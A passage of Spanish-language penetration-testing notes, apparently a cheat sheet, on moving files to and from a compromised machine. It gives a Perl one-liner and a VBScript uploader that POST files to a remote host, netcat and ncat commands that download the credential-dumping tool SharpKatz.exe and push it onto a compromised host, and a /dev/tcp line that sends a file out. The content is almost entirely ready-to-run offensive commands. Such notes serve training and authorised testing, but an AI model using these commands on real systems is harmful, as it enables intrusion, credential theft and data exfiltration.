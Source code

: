 ```bash
perl -e 'use LWP::UserAgent; my $ua = LWP::UserAgent->new; my $url = "http://target.com/upload"; my $file = "file_to_upload.txt"; my $res = $ua->post($url, Content_Type => "form-data", Content => [ file => [$file] ]); print $res->content;'
```
#### Vbasic - `cscript.exe` Windows
Creamos archivo llamado `upload.vbs`
```vb
dim http: Set http = createobject("Microsoft.XMLHTTP")
dim stream: Set stream = createobject("Adodb.Stream")
http.Open "POST", WScript.Arguments.Item(0), False
stream.Type = 1
stream.Open
stream.LoadFromFile WScript.Arguments.Item(1)
http.Send stream.Read
```
Ejecutamos el script
```bash
cscript.exe upload.vbs "http://target.com/upload" "file_to_upload.txt"
```
---

## Con netcat
### Escucha en la máquina comprometida
#### Máquina comprometida
```bash
#utlizando el netcat original
nc -l -p 8000 > SharpKatz.exe
# utilizando ncat, hay que añadir una flag adicional
ncat -l -p 8000 --recv-only > SharpKatz.exe
```
#### Máquina atacante
```bash
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
#Ejemplo con nc original
nc -q 0 $target 8000 < SharpKatz.exe
# Example using Ncat
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
Podemos optar por `--send-only` (indica que finalece la escucha una vez agote la entrada) en lugar de `-q` ( `-q x` espera `x` segundos antes de cerrar la conexión)
### Conexión desde la máquina comprometida
#### Máquina atacante
```bash
# Example using Original Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe
# Example using Ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Máquina comprometida - con netcat
```bash
# Example using Original Netcat
nc 192.168.49.128 443 > SharpKatz.exe
# Example using Ncat
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
## Con `/dev/tcp`
### Envíar archivo
```bash
cat prueba.txt > /dev/tcp/0.0.0.0/4444
```